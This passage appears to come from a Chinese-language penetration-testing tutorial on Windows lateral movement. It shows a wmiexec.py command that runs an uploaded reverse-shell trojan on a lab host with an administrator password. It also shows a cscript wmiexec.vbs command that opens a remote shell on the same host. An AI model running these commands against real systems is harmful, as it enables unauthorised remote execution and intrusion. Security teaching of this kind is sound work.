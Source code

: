 #### 2.2.2.2. 执行木马

上传后就可以执行木马了，这里我们也看到是成功反弹会话了，同样这里是反向木马，想要使用正向木马，也简单，这里我就不演示了。

```
wmiexec.py ./administrator:admin@123@192.168.20.30 "cmd.exe /c c:/3333.exe"
```

![image-20230629095540602](assets/9KSWxpJzcE5Im72.png)

# 3. cscript介绍

Cscript 是 Windows 脚本宿主的一个版本，可以用来从命令行运行脚本。同时也是一个内置的命令，但是这个命令无回显，所以这里就需要使用到一些脚本，来让其成功回显。

[wmiexec](https://github.com/AA8j/SecTools/tree/main/wmiexec.vbs)

## 3.1. cscript操作演示

不过这里有个问题就是cscript是交互式的，所以再CS中无法操作，只有将文件上传到受控主机上，使用受控主机去连接目标主机，不过正常来说使用cscript还是比较少的，主要是麻烦。

```
cscript //nologo wmiexec.vbs /shell 192.168.20.30 administrator admin@123
```
